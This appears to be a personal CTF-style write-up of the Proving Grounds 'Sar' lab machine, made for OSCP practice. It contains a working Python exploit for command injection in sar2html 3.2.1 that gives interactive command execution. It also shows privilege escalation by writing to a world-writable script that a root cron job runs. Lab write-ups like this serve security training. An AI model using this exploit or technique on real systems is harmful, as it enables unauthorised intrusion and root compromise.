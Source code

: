 ```yaml
---
title: "Proving Grounds (OSCP) - Sar"
publishedAt: 2023-08-20
description: "PlayGround Writeup"
isPublish: true
---
```



This was a fairly easy machine, I began with a `nmap` scan:

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

On port 80 there was a blank website, so I fuzz it and found bunch of files.

```
http://192.168.210.35/robots.txt -> http://192.168.210.35/sar2HTML/
http://192.168.210.35/phpinfo.php
```

Using the `phpinfo` I have enumerated the versions

```bash
sar2html Ver 3.2.1 <-- Vulnerable
Linux sar 5.0.0-23-generic #24~18.04.1-Ubuntu SMP Mon Jul 29 16:12:28 UTC 2019 x86_64
Apache/2.4.29
PHP 7.1.32-1+ubuntu18.04.1+deb.sury.org+1
exif 7.1.32-1+ubuntu18.04.1+deb.sury.org+1 - JPEG,TIFF
mysqlnd 5.0.12-dev - 20150407
Net_SFTP_Stream 0.3.2 SFTP Stream Wrapper
```

`sar2html` Was vulnerable to RCE, and I've created a python script to exploit it further.

```python
import bs4
import requests


url = "http://<ip>/sar2HTML/index.php?plot=;"

while True:
    command = input("$ ")
    if command == "exit":
        break
    else:
        response = requests.get(url + command.replace(" ", "%20"))
        html = response.text
        soup = bs4.BeautifulSoup(html, "html.parser")

        sel_tag = soup.find("select", {"class": "select_text"}).children
        for c in sel_tag:
            if c.text == "Select Host":
                continue
            if c.text == "There is no defined host...":
                continue
            print(c.text)
```

Using this script, you can read the `user/local.txt` file to get the first flag. 

I then run the `linpeas` script to check how to privilege escalation, I've noticed that there was a `cron` job that was running on the `*.sh` files in the `/var/www/html` folder:

```bash
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

`finally.sh` is actually calling `write.sh` which is writable by the `www-data`

```
-rwxrwxrwx 1 www-data www-data    55 Mar  5 15:32 write.sh
```

I've used the following script to get the `root` `proof.txt`

```bash
# write.sh
cat /root/proof.txt > /var/www/html/hash.txt
```

Then I waited `5m` to get the flag, I've done it this way since I got problems setting up the reverse shell, nonetheless I got root.